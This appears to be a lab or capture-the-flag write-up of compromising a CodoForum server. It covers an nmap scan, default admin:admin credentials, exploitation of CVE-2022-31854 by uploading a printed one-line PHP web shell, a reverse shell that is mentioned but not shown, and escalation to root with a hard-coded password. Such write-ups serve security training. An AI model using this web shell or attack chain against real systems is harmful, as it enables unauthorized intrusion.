




IP: 192.168.235.23

# Recon
## Nmap

`nmap` found (2) ports open, HTTP (80) and SSH (22).

```bash
$ nmap -Pn -T4 -sVC -p 22,80 192.168.235.23 -oA codo

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 13:47 EDT
Nmap scan report for 192.168.235.23
Host is up (0.033s latency).

Bug in http-generator: no string output.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: All topics | CODOLOGIC
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.25 seconds
```

## Web Application - TCP 80
### Site

Visiting the site takes us to a forum-like website.



### Tech Stack

The website seems to be running `CodoForum` which is an advanced, best, and most powerful free PHP forum software.


Upon research there seems to be multiple vulnerabilities for this software.



# Shell as www-data
## CVE-2022-31854

In our previous searchsploit image, we can see there is an [authenticated RCE](https://www.exploit-db.com/exploits/50978) vulnerability for Codoforum.

Since this is authenticated, I started to look for default credentials and none were found.

Reviewing the exploit script tells us that we are trying to authenticate via the admin portal at `/admin/?page=login`.



Finally, we found valid credentials, `admin:admin`, after manually testing common user/pass combinations.


Having all I need to run the exploit code, I went ahead and ran the script. Unfortunately, the script throws an error and hints at how to manually reproduce this exploit.


First, I find the upload functionality that the script mentions.


Then I go ahead and write a quick PHP web shell script to upload:

```php
# wbshll.php
<?php
system($_GET['cmd']);
?>
```

Once we upload our file and save the changes, we see that it now says that the logo is `wbshll.php`



Now the script says we can access this file using this URL:

```
http://192.168.235.23/sites/default/assets/img/attachments/[file.php]
```

We can see we now have RCE:


I write a quick bash one-liner reverse shell and submit via burp and get a reverse shell.


# Shell as root
## Hard-coded creds

Considering that this is a web server that has many files and directories, I use a tool that I wrote to scrape all these assets for keywords.


I then try switching to the root user using `FatPanda123` and was able to get a root shell.

```bash
su root
```


---
# References

[CodoForum v5.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50978)
